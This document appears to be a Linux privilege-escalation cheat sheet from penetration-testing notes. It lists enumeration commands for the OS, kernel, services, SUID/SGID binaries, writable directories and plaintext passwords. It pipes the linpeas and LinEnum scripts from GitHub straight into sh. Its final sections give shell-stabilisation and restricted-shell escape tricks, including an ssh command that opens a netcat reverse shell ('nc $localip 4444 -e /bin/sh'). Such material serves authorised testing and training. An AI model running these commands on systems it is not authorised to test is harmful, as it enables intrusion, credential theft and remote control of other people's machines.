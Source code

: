 

Enumeration is the key.
(Linux) privilege escalation is all about:

    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.


Linpeas
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh


LinEnum
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | sh


Operating System
What's the distribution type? What version?
cat /etc/issue
cat /etc/*-release
  cat /etc/lsb-release
  cat /etc/redhat-release


What's the Kernel version? Is it 64-bit?
cat /proc/version   
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-


What can be learnt from the environmental variables?
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set


Is there a printer?
lpstat -a


Applications & Services
What services are running? Which service has which user privilege?
ps aux
ps -ef
top
cat /etc/service


Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!
ps aux | grep root
ps -ef | grep root


What applications are installed? What version are they? Are they currently running?
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/


Any plain text usernames and/or passwords?
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla


What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID
find / -perm -1000 -type d 2>/dev/null    # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the  group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the  owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

#find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hideany errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null


Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm
find / -writable -type d 2>/dev/null     # world-writeable folders
find / -perm -222 -type d 2>/dev/null  # world-writeable folders
find / -perm -o+w -type d 2>/dev/null    # world-writeable folders

find / -perm -o+x -type d 2>/dev/null    # world-executable folders

find / \( -perm -o+w -perm -o+x \) -type d 2>/dev/null   # world-writeable & executable folders


Any "problem" files? Word-writeable, "nobody" files
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files


Preparation & Finding Exploit Code
What development tools/languages are installed/supported?
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc


How can files be uploaded?
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp


Stable shell
Spawn Interactive Shell and set env  
````
python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  
````


Restricted bash
````
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  
````